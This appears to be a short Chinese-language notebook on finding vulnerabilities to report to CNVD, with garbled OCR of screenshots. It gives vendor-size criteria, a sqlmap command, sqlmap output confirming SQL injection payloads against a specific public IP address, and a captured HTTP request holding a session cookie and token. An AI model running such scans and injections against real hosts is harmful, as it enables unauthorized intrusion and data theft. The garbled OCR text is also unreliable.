



CNVD：

注册资本>5kw(爱企查)

实缴资本>5kw

事件型必须是事业单位（国企单位）

通用性必须（>5kw；案例【fofa搜索语句】>10）

fofa精准搜索：

<!-- 这是一张图片，ocr 内容为：TILE---Z-ZOQ-&8  88  LOADER--20Q-&& AFTER-ADMIN DOD>:2021.01---STONG:NETE SONY BUT MAS CREATORK PROPERLY WITHOUT JAVASCRIP 012210 3101 -->

sql语句

出现sql syntax则大概率存在sql注入

用sqlmap跑数据包

<!-- 这是一张图片，ocr 内容为：共享 文件 主页 此电脑>DATA(O:)>WEB-SECURE`OTHER-EXPLOIT>SQLMAP-MASTER 类型 名称 大小 修改日期 快烫访问 -GITHUB 文件夹 2023-10-27 21:17 ONEDRIVE-PERSONAL 文件类 L DATA 2023-10-27 21:17 C:WINDOVSLSYSTEM32/CRNDOM-AGENT 此电脑 MICROSOFT WINDOWS [版本 10.0.19045.4291] 3D 对象 (C)MICROSOFT CORATION.保留所有权利. DESKLOP 10:\WEB-SECURE\OTHER-EXPLOIT\SQLMAP-MASTER>PYTHON SQLMAP.PY -1 1.TXT --BATCH --RANDOM-AGENT 视频 图片 -->

<!-- 这是一张图片，ocr 内容为：CISWINDOWSTSYSTEM32ICMD.EXE L16:21:52)(INFOL TESTING GENERIC UNION QUERY (NULL)-1 TO 20 COLUMNS ER (POTENTIAL) TECHNIQUE FOUND [16:21:52] INFO] AUTOMATICALLY EXTENDING RANGES FOR UNION QUERY INJECTION TECHNIQUE TESTS AS THERE IS AT INAST ONE OTH [16:21:53] [INFO] TESTING'MYSQL UNION QUERY (NULL)-1 TO 20 COLUMNS' [16:21:54] [INFO] TESTING'MYSQL UNION QUERY(RANDOM NUMBER)-1 TO 20 COLUMNS [INFO] TESTING'MYSQL UNION QUERY (NULL)-21 TO 40 COLUMNS' [16:21:55] [INFO] [16:21:55] TESTING MYSQL UNION QUERY (RANDOM NUMBER)-21 TO 40 COLUMNS' [16:21:56] INFO] UNION QUERY (NULL) )-41 TO 60 COLUMNS TESTINGMYSQL [16:21:57] UNION QUERY(RANDOM NUMBER)-41 TO 60 COLUNINS TESTINGMYSQL [16:21:58] UNION QUERY (NULL)-61 TO 80 COLUMNS' [INFO] TESTING'MYSQL [16:21:59] [INFO] TESTING'MYSQL UNION QUERY (RANDOM NUMBER)-61 TO 80 COLUMNS' [INFO] [16:22:00] UNION QUERY(NULL)-81 TO 100 COLUMNS TESTING 'MYSQL UN [INPO] TESTING'MYSQL UNION QUERY (RANDOM NUMBER)-81 TO 100 COLUMMNS' [16:22:01] URI PARAMETER # IS VULNERABLE. DO YOU WANT TO KEEP TESTING THE OTHERS (IF ANY)? LY/N) IDENTIFIED THE TOLLOWING INJECTION POINT(S) WITH A TOTAL OF 299 HTTP(9) REQUESTS: SQLMAP #1*(URI) PARAMETEN TYPE:BOOLEAN-BASED BLIND TITLE: BOOLEAN-BASED BLIND - PARAMETER REPLACE (ORIGINAL VALUE) (SELECT 7311 UNION SELECT 3375) END))8 ))&ORDERDESC&KEHUBIA ELSE(S 80%1% TYPE:ERROR-BASED (UPDATEXML) TITLE:MYSQL 5.1 ERROR-BASED-PARAMETER REPLALE (UPDA PAYLOAD:HTTP://39.105.122.253/SPRINGBOOTS454X/KEE. EHUBIANHAO%1% TYPE:TIME-BASED BLIND TITLE:MYSQL>-5.0.12 TIME-BASED BLIND - PARAMETER REPLACE DO YOU WANT TO EXPLOIT THIS SQL INJECTION?[Y/N] Y [16:22:02] [INFO] THE BACK-END DBMS IS MYSQL WEB APPLICATION TECHNOLOGY:NGINX 1.18.0 BACK-END DBMS:MYSQL>5.1 [16:22:03] [WARNING] HTTP ERROR CODES DETECTED DURING RUN: 500(INTERNAL SERVER ERROR)-300 TIMES FILE 'C:\USERS(86135LAPPDATA LOCAL\SQLMAPLOUTPUTPUT\RESULTS-04212024-0421PM.ESV' [I6:22:OS] [INFO] YOU CAN FIND RESULTS OF SCANNING IN MULTIPLE TARGETS MODE INSIDE THE CSV FILE [*] ENDING @16:22:03/2024-04-21/ -->

<!-- 这是一张图片，ocr 内容为：CNVD挖据 1GET /SPRTNGBOOTS45EX/KENUXINXI/PARE7PARE-18LINTE-198SORT三*SORT三*SDEREDESCAHUBIANHAO三X251X25 HTTP/1.1 HOST:39.105.122.253 ACCEPT:APPLICATION/JSON,TEXT/PLAIN,*/* ACCEPT-ENCODING:IDENTITY ACCEPT-LANGUAGE:ZH-CN,ZH;Q.9 4COAHIE: JSESSIONIDSA2ESSECR702C421FF7RBDEEC18CADO55; SENSORSDACA2015JSSDKEROSS-X78X2DISTINCT, LAK223 223320%2323LATEST.SEATCH.HEYWORD3233333832URL买E72322328 TOKEN:LPM4TSNTW2DLWMS3UGXR14U3N7H8JJ4B LUSER-ABENT: NOZILLA/5.0 (WINDOWS NT 10.8; WING4; X64) APPLEWEBKIT/S37.36 (KHTHL, LLKE GECKO) CHROME/ .0.0 SAFARI/537.36 UACQ "CHROMIUM";V"113", GOOGLE CHROME";V113", SEC-CH-UA:GO NOTA?BRAND"24 SEC-CH-UA-MOBILE:?0 SEC-CH-UA-PLATFORM: 'WINDOWS TTM://204050052/#/14% -->

如何确定厂商

